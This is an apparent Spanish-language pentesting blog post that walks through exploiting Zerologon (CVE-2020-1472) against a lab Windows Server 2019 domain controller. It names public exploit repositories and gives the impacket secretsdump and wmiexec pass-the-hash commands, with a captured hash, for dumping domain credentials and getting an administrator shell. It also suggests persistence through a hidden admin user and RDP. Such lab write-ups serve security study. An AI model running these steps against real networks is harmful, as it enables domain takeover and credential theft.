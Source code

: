 ```yaml
---
layout: single
title: Zerologon en Windows Server 2019
excerpt: "En éste artículo atacaremos un Windows Server 2019 con el rol de Active Directory utilizando Zerologon para obtener los hashes de las contraseñas de todos los usuarios y máquinas del
dominio. Quiero recalcar que para realizar éste ataque no necesitamos
credenciales de ningún tipo ni estar unidos al dominio, lo que hace de ésta
vulnerabilidad una de las más críticas encontradas hasta la fecha. Teniendo el
hash de la contraseña del administrador del dominio utilizaremos la conocida
técnica de pass the hash para obtener acceso al sistema con la cuenta del
administrador."
date: 2021-03-13
classes: wide
header:
  teaser: /assets/images/Zerologon/zerologon.jpg
  teaser_home_page: true
categories:
  - Windows
tags:
  - Windows
  - Privilege Escalation
  - Pentesting
---
```


![](/assets/images/Zerologon/zerologon.jpg)

En éste artículo atacaremos un Windows Server 2019 con el rol de Active Directory utilizando Zerologon para obtener los hashes de las contraseñas de todos los usuarios y máquinas del dominio. Quiero recalcar que para realizar éste ataque no necesitamos credenciales de ningún tipo ni estar unidos al dominio, lo que hace de ésta vulnerabilidad una de las más críticas encontradas hasta la fecha. Teniendo el hash de la contraseña del administrador del dominio utilizaremos la conocida técnica de pass the hash para obtener acceso al sistema con la cuenta del administrador.

Utilizaremos una máquina virtual con Linux para la parte del atacante y otra
con Windows Server 2019 y Active Directory para la víctima.

![](/assets/images/Zerologon/windows-server.png)

En hackplayers explican en profundidad la vulnerabilidad.

[https://www.hackplayers.com/2020/09/zerologon-desatado-comprometer-DCs-facilmente.html](https://www.hackplayers.com/2020/09/zerologon-desatado-comprometer-DCs-facilmente.html)

Citando el artículo de hackplayers:

Zerologon se aprovecha de una vulnerabilidad en el servicio Netlogon, que se utiliza para diversas tareas relacionadas con la autenticación de usuarios y máquinas en controladores de dominio.

Netlogon utiliza un protocolo criptográfico basado en AES-CFB8 que define IVs fijos de 16 bytes de ceros en lugar de IVs aleatorios. Con esto, dada una clave aleatoria, hay una probabilidad de 1 entre 256 de que el cifrado AES de un bloque de todo ceros de como salida todo ceros. Dado que las cuentas de equipo no se bloquean después de intentos de inicio de sesión no válidos, simplemente podemos intentarlo varias veces hasta que obtengamos esa clave y la autenticación sea exitosa. La media esperada de intentos necesarios será de 256, lo que en la práctica sólo lleva unos tres segundos. Con este método, podemos iniciar sesión como cualquier ordenador del dominio. Esto incluye controladores de dominio de respaldo e incluso el propio controlador de dominio de destino. Conseguiremos cambiar la contraseña del equipo controlador de dominio a una cadena vacía (todo ceros) para obtener privilegios y poder obtener los hashese de todos los usuarios de Active Directory. Después de vulnerar el equipo podemos volver a cambiar la contraseña de la cuenta de equipo controlador de dominio para que todo vuelva a funcionar correctamente. Ahora el DC vuelve a comportarse normalmente y el atacante se ha convertido en administrador de dominio.

## Testeando si el servidor es vulnerable

La empresa Secura publicó una herramienta para identificar si una máquina es
vulnerable a Zerologon en un repositorio de github [https://github.com/SecuraBV/CVE-2020-1472](https://github.com/SecuraBV/CVE-2020-1472)

Nos clonamos la herramienta con `git clone
https://github.com/SecuraBV/CVE-2020-1472.git` y la lanzamos contra nuestro
controlador de dominio virtualizado, que se llama DC01 y tiene la ip
192.168.160.131

![](/assets/images/Zerologon/testing.png)

Y vemos que nos dice que es vulnerable a zerologon. Ésta vulnerabilidad afecta
a todas las versiones de Windows Server desde la 2008 R2, siempre que no
cuenten con las últimas actualizaciones instaladas. Microsoft sacó un parche en agosto, pero por lo visto había que editar el registro a mano para asegurarse de que el sistema quedaba completamente parcheado. En concreto la clave del registro es FullSecureChannelProtection y tiene que tener un valor de “1”. Se supone que en febrero tenía que salir la actualización que parcheaba definitivamente la vulnerabilidad, con lo cual deben de haber muchos servidores a dia de hoy que siguen siendo vulnerables.

El nombre del servidor y el del dominio se pueden averiguar rápidamente con
crackmapexec.

![](/assets/images/Zerologon/info.png)

## Explotando la vulnerabilidad y accediendo al sistema

Existen varias pruebas de concepto que explotan zerologon pero yo en este caso
voy a utilizar ésta: [https://github.com/dirkjanm/CVE-2020-1472](https://github.com/dirkjanm/CVE-2020-1472)

Igual que antes, nos clonamos el repositorio con `git clone
https://github.com/dirkjanm/CVE-2020-1472.git`

![](/assets/images/Zerologon/clone.png)

Y ahora ejecutamos el script en python, pero antes vamos a crear un entorno
virtual con virtualenv para que no nos den problemas los scripts de impacket.

Para ello ejecutamos 
```
virtualenv zerologon
source zerologon/bin/activate
```

Ahora nos vamos al directorio opt y nos clonamos la suite de herramientas de
impacket

```
git clone https://github.com/SecureAuthCorp/impacket
cd impacket
sudo pip install .
```

Ahora si, ejecutamos el exploit y vemos que funciona y nos dice Exploit
complete!

![](/assets/images/Zerologon/exploit.png)

Ahora ejecutamos el script de impacket secretsdump para obtener los hashes de
las contraseñas. Le pasamos un hash que corresponde a todo ceros para la cuenta
de máquina del controlador del dominio, por eso ponemos dom01.local/DC01$ con
un signo de dolar al final.

![](/assets/images/Zerologon/secrets.png)

Obtenemos los hashes de las cuentas de usuario, en este caso es solo la del
administrador, la del invitado y la de krbtgt porque no hay más usuarios, pero si huviera más nos los mostraría
también.

Para usar pass the hash podemos utilizar wmiexec y obtendremos una sesión de
cmd de la cuenta del administrador del dominio.

![](/assets/images/Zerologon/pth.png)

Vemos que al ejecutar whoami nos devuelve dom01\administrador. Estamos dentro
de la máquina con la cuenta del administrador del dominio. En éste punto
podemos hacer lo que queramos, por ejemplo crearnos un usuario administrador
oculto para que no se vea desde windows, activar el escritorio remoto editando
el registro con los comandos reg y conectarnos por RDP al servidor.

Además teniendo en cuenta que hay una GPO que se aplica a cualquier equipo al
unirlo al dominio que añade al administrador del dominio al grupo de
administradores local, podremos acceder a cualquier equipo de la red que esté
unido al dominio.

## Restableciendo la contraseña original

No nos olvidemos de que tenemos que restablecer la contraseña de la cuenta
de quipo para que todo funcione correctamente a nivel de active directory. Esto
es debido a que hemos cambiado la contraseña de la cuenta del equipo a nivel de
active directory, pero en la sam local sigue estando la original.

Para restablecerla usaremos de nuevo secretsdump pero esta vez con el hash del
administrador, lo que nos devolverá la *plain_password_hex* original para poder
restablecerla con el script restorepassword.py

```
secretsdump.py dom01.local/administrador@192.168.160.131 -target-ip 192.168.160.131 -hashes :57987b38d5ba54e02daa2d5d7579765b
```

Nos devuelve entre otras cosas la plain_password_hex de la cuenta de equipo en
la sam local.

```
DOM01\DC01$:plain_password_hex:fc3547348ef0ff05e8427168cd24be642dc407bf1d352de423fe0651b653ce853d7e37c957bd504444cd6898b301f56c00061671e25c11ddcf3890ef8b8bfcc41c8672fa708c4aa5981d8a1006288e7938887597eef55c630b37d5ddcd5635237f0b9be59944353f7ac163f60ad134c4f9506f768c49a33beda57a039e2a50d2d022c50a3d488998ee7f6cf2861c82bba15a67121c896fd479dc2688a6a2400b3a0c49ae1af1909672033929927e38e91fbe1a01e6d4ee15a381b6ccc42cdcc578fad4630161d429bc63fc7376e5debc403afba544390b42592408bb44c47e6da38b111d98d9cb9fadbfa89bb2936f53
```

Solo quedaría ejecutar el script para restablecer la contraseña local de la
cuenta de equipo.

```
sudo python3 restorepassword.py dom01.local/DC01@DC01 -target-ip 192.168.160.131 -hexpass fc3547348ef0ff05e8427168cd24be642dc407bf1d352de423fe0651b653ce853d7e37c957bd504444cd6898b301f56c00061671e25c11ddcf3890ef8b8bfcc41c8672fa708c4aa5981d8a1006288e7938887597eef55c630b37d5ddcd5635237f0b9be59944353f7ac163f60ad134c4f9506f768c49a33beda57a039e2a50d2d022c50a3d488998ee7f6cf2861c82bba15a67121c896fd479dc2688a6a2400b3a0c49ae1af1909672033929927e38e91fbe1a01e6d4ee15a381b6ccc42cdcc578fad4630161d429bc63fc7376e5debc403afba544390b42592408bb44c47e6da38b111d98d9cb9fadbfa89bb2936f53
```

![](/assets/images/Zerologon/restore.png)

Para comprobar si todo ha ido bien podemos ejecutar de nuevo nuestra primera
ejecución de secretsdump y esta vez debería dar error al no estar la contraseña
de la cuenta del equipo vacía.

![](/assets/images/Zerologon/error.png)

Y efectívamente, todo ha vuelto a la normalidad, pero seguimos teniendo acceso al equipo como administrador del dominio porque seguimos teniendo el hash de la contraseña de la cuenta del administrador para hacer pass the hash.

```
wmiexec.py -hashes :57987b38d5ba54e02daa2d5d7579765b Administrador@192.168.160.131
```

![](/assets/images/Zerologon/final.png)
